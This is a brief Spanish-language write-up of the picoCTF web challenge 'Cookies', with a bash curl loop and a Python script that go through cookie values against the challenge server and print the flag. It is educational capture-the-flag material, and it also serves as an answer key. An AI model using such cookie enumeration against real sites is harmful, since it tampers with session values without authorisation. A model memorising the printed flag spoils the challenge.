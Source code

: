#notas_hacking #web
# Reto
## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
## Solución
Si ingresas una galleta que no es valida dentro de la cookie name asigna un valor de -1, si se pone snickerdoodle regresa un 0, si se cambia a 1 u otro numero natural es una cookie correcta pero no la especial
 ```bash
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
 ```
 o en `python`
 ```python
import requests
import re

url = "http://mercury.picoctf.net:27177/check"

for i in range(20):
        cookies = {'name':'{}'.format(i)}
        r = requests.get(url, cookies=cookies)
        if 'picoCTF{' in r.text:
                flag = re.findall('picoCTF{.*}', r.text)[0]
                print(flag)
 ```
 ```bash
┌──(kali㉿kali)-[~/retos]
└─$ python exp.py
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
 ```
## Notas
## Referencias
